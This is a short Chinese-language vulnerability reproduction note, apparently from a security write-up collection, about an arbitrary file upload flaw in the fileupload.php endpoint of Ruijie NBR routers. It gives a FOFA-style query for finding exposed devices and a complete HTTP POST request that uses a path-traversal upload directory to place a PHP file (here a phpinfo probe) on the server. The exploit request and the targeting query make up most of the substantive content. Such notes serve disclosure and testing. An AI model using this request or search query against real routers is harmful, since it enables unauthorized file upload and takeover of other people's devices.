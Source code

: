# 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

# 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

锐捷 NBR 路由器

## 网络测绘

```
app="Ruijie-NBR路由器"
```

## 漏洞复现

![](/images/202202110923377.png)

出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件

![image-20230828163312522](images/image-20230828163312522.png)

文件名及目录均可控，导致可以任意上传文件

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![image-20230828163324363](images/image-20230828163324363.png)

访问上传的文件目录

![image-20230828163346730](images/image-20230828163346730.png)

